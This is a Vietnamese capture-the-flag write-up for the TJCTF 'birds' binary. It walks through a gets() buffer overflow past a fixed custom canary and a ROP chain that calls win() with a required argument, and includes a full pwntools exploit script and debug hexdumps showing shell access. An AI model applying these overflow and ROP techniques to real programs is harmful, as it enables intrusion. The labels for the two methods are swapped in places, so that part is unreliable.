


# Phân tích

## Src code

Mở src code lên xem thấy có một mảng `buf[64]` được khai báo có 64byte nhưng sau đó lại dùng hàm `gets()` để lấy dữ liệu từ người dùng => Lỗ hổng ở đây là **Buffer overflow**

Trong src code cũng có một hàm `win()` tạo shell `/bin/sh` để ta đọc flag trên server. Đây là mục tiêu của bài

Chạy `checksec birds` không thấy file binary bật `canary` nhưng ở đây tác giả đã tạo một canary custom vào một biến trong hàm main là `canary = 0xDEADBEEF` nếu mà mình làm tràn biến quá 64 byte làm thay đổi biến `canary` thì chương trình sẽ in ra `No stack smashing for you!` rồi thoát, nếu `canary` được giữ nguyên như ban đầu thì không in ra gì và thoát bình thường

 ```c
 if (canary != 0xDEADBEEF) {
         puts("No stack smashing for you!");
         exit(1);
     }
 ```

Ví dụ đơn giả về canary là gì có thể xem trong ảnh



Ở trên canary sẽ là các biến cục bộ `VD: canary, buf` và sau đó đến canary - canary sẽ có một giá trị ngẫu nhiên và khi chương trình đi qua nó thì sẽ có cơ chế để kiểm tra giá trị gốc của canary và giá trị hiện tại là gì, nếu giá trị đó mà khác so với ban đầu thì chương trình sẽ tự thoát

Tác giả chỉ sử dụng một loại canary đơn giản hơn và ta đã biến được giá trị của nó là `unsigned int canary = 0xDEADBEEF;`

Giải thích 1 chút về thanh ghi `RIP` 

- Là thanh ghi chứa địa chỉ của lệnh tiếp theo CPU sẽ thực thi
- Mỗi lần gọi `ret`, chương trình lấy địa chỉ từ stack và nhảy đến đó bằng cách gán vào `RIP`

Vậy trong 1 bài buffer overflow cơ bản ta muốn nhảy đến hàm `win()` để tạo shell. Nhưng ở đây khó hơn một chút bởi khi overflow ta sẽ phải vượt qua canary check:

- Ghi đè toàn bộ byte của `buf` muốn biết phải ghi bao nhiêu thì cần phân tích hoặc debug file binary khi nhập dữ liệu
- Ghi đè đúng 4 byte của biến `unsigned int canary` với giá trị **0xDEADBEEF**
- Ghi đè 8 byte của `RBP`
- Ghi đè 8 byte của `RIP` = Giá trị của `win()`

Nhưng khi nhảy đến hàm `win()` thì lại có một cái check nữa

```c
void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}
```

- Biến `secret` phải có giá trị **0xA1B2C3D4** thì mới tạo được shell nhưng mà trong `main()` lại không có gọi đến hàm `win()` và cũng không có cách nào để truyền tham số `secret` vào trong src code
- Ở đây có 2 cách đó là nhảy trực tiếp vào địa chỉ tạo shell `/bin/sh` trong file binary hoặc là tìm một cách nào đó để đưa `0xA1B2C3D4` vào tham số `secret`, cách 1 thì khá đơn giản rồi nhưng vẫn sẽ giải thích cách 2

Trong src code lại có một hàm khác khá lạ:

```c
void gadget() {
    asm("push $0x69;pop %rdi");
}
```

Sau khi tìm hiểu một chút thì thấy để truyền tham số vào hàm `win()` sẽ có cách khác đó là dùng **ROP** với 1 tool là `ROPgadget` dùng như thế nào và dùng để làm gì thì sẽ giải thích thêm trong khi phân tích binary và viết script exploit

## Binary

Đưa file binary vào IDA, bật chế độ pseudo code để dễ xem hơn rồi ấn vào một biến cục bộ trong hàm `main()` để xem stack frame

```
-0000000000000050 // Use data definition commands to manipulate stack variables and arguments.
-0000000000000050 // Frame size: 50; Saved regs: 8; Purge: 0
-0000000000000050
-0000000000000050     _BYTE buf[76];					// 76 byte
-0000000000000004     _DWORD canary;                      // 4 byte
+0000000000000000     _QWORD __saved_registers;           // RBP - 8 byte
+0000000000000008     _UNKNOWN *__return_address;         // RIP - 8 byte
+0000000000000010
+0000000000000010 // end of stack variables
```


Nhìn cái này thì khá rõ là ta phải làm gì rồi, trước hết ghi 76 byte linh tinh đè toàn bộ `buf` sau đó là 4 byte `0xDEADBEEF` để vượt qua `canary` rồi 8 byte linh tinh tiếp theo để ghi đè `RBP` và đến `RIP` nhưng thay vì chỉ đơn giản là nhảy vào win ta còn cần phải đưa tham số `secret = 0xA1B2C3D4` vào để có thể tạo shell

Để làm vậy thì trước khi ghi địa chỉ của hàm `win()` cần đưa tham số `secret` vào, thứ tự các tham số đưa vào sẽ là các thanh ghi `1-RDI`, `2 - RSI`, `3 - RDX`. Trong bài này thì `win()` chỉ yêu cầu một tham số nên ta chỉ cần ghi giá trị của `secret` vào thanh ghi `RDI`. Để làm vậy ta sẽ tìm các đoạn `pop rdi` ở trong binary với tool `ROPgadget` 

Dùng lệnh `pop` bởi vì nó lấy trực tiếp giá trị trên đỉnh stack và nạp vào thanh ghi `RDI` 

```bash
$ ROPgadget --binary birds | grep "pop rdi"
0x00000000004011bc : mov ebp, esp ; push 0x69 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004011bb : mov rbp, rsp ; push 0x69 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004011c0 : pop rdi ; nop ; pop rbp ; ret
0x00000000004011be : push 0x69 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004011ba : push rbp ; mov rbp, rsp ; push 0x69 ; pop rdi ; nop ; pop rbp ; ret
```

Ta sẽ lấy đoạn ngắn nhất là `0x00000000004011c0 : pop rdi ; nop ; pop rbp ; ret` bởi vì càng ít thanh ghi thì càng dễ ghép

`nop` là no operation, lệnh này không làm gì hết

Ở đây có thừa thêm một lệnh `pop rbp` nữa nhưng vì ta chỉ muốn sử dụng `pop rdi` nên khi tạo payload sẽ cần pad thêm `0` vào để chương trình không crash khi gửi payload

Với cách 1, để tìm ra địa chỉ mà `win()` thực hiện gọi `/bin/sh` ta cần vào hàm `win()` trong IDA rồi sau đó xem dưới dạng `text view` thay vì `graph view`



Địa chỉ hàm `win()` **0x00000000004011C4**

Địa chỉ thực hiện tạo shell `/bin/sh` trong `win()`: **0x00000000004011DC**

# Script

```python
from pwn import *

p = process('./birds')
#p = remote("tjc.tf", 31625)

win_addr =  0x00000000004011c4 # Kiểm tra trong IDA hoặc dùng tool trên linux như nm, objdump,...
win_addr_no_check = 0x00000000004011DC
pop_rdi = 0x00000000004011c0 # pop rdi ; nop ; pop rbp ; ret

# Checksec khong thay canary duoc bat => custom canary check trong IDA

# De vuot qua check dau thi can lam tran bien v4, khi tran sang v5 thi cho no gia tri la 0xdeadbeef

payload = b'A'*76 # bof
payload += p32(0xdeadbeef) # Can su dung 4 byte de ghi chinh xac gia tri cua v5 nen ta se dung p32()
						   # Neu dung p64() se ghi 8 byte => ko vuot qua check
payload += b'B'*8 # pad RBP

### Cách 1 ###
# Ham win can dua a1 vao, checksec khong co PIE => tim pop rdi bang ROPgadget sau do dua a1(=0xA1B2C3D4) vao

payload += p64(pop_rdi)
payload += p64(0xA1B2C3D4) # RDI dung p64 de truyen a1 vao do rdi la thanh ghi 64bit
payload += p64(0) # RBP, khong su dung den pad them vao do cac gadget la pop rdi ; nop ; pop rbp ; ret
payload += p64(win_addr) # Nhay vao win

### Cách 2 ###
# payload += p64(win_addr_no_check) # Nhảy thẳng vào vùng nhớ thực hiện if

#input()
p.sendlineafter(b'I made a canary to stop buffer overflows. Prove me wrong!\n', payload)
#input()

p.interactive() # Vào interactive thì chạy lệnh để kiểm tra thôi
```

`nc` đến server ko được nên chạy local

```bash
$ python solve.py DEBUG
[+] Starting local process './birds' argv=[b'./birds'] : pid 624
[DEBUG] Received 0x3a bytes:
    b'I made a canary to stop buffer overflows. Prove me wrong!\n'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  dc 11 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x36 bytes:
    b'birds  birds.c\tflag.txt  ilovebirds.md  pcs  solve.py\n'
birds  birds.c  flag.txt  ilovebirds.md  pcs  solve.py
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0xb bytes:
    b'tjctf{chim}'
tjctf{chim}$
```

Đôi với cách 1 có thể thấy payload đã gửi những cái này

```bash
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  			 │AAAA│AAAA│AAAA│
    ### 76 byte toàn 'A' để làm đầy hết buf
    
	ef be ad de  |····│
	## 4 byte 0xDEAEDBEEF
	
    00000050  42 42 42 42  42 42 42 42  │BBBB│BBBB│ 
    ## 8 byte 'B' để tràn qua saved RBP
    
    dc 11 40 00  00 00 00 00  ··@·│····│
    ### Địa chỉ thực hiện gọi /bin/sh 0x4011DC
    
    00000060  0a                                                  │·│
    00000061
    # Do dùng sendlineafter() nên có thêm `\n` thôi
```

Với cách 2 thì payload sẽ như này

```bash
$ python solve.py DEBUG
[+] Starting local process './birds' argv=[b'./birds'] : pid 637
[DEBUG] Received 0x3a bytes:
    b'I made a canary to stop buffer overflows. Prove me wrong!\n'
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  c0 11 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000060  d4 c3 b2 a1  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000070  c4 11 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000079
[*] Switching to interactive mode
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0xb bytes:
    b'tjctf{chim}'
```

Payload này phức tạp hơn 1 chút

```bash
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  						│BBBB│BBBB|
    ## Như cũ
    
    c0 11 40 00  00 00 00 00  									│··@·│····│
    ## Địa chỉ pop rdi 0x4011C0
    
    00000060  d4 c3 b2 a1  00 00 00 00  					     │····│····|
    ## Đưa 0xA1B2C3D4 vào rdi
    
    00 00 00 00  00 00 00 00  								    │····│····│
    ## Pad vào rbp
    
    00000070  c4 11 40 00  00 00 00 00  0a                         │··@·│····│·│
    00000079
    ## Địa chỉ bắt đầu hàm win() 0x4011C4
```

Lưu ý cái này dùng được do chương trình nhận dữ liệu của người dùng = `gets()` - Nhập bao nhiêu cũng nhận

Nếu dùng các phương thức khác như `scanf()` `fgets()` thì có thể sẽ không nhập được nhiều như ở đây mà phải sử dụng một vài kĩ thuật khác

Ví dụ như không dùng `gets()` mà dùng `fgets(s, 88, stdin)` chẳng hạn thì ta chỉ làm tràn được thêm 12 byte, đến được hết `RBP` thì sẽ không thể ghi đè lên `RIP` được do sau byte thứ 88 `fgets()` không nhận thêm nữa
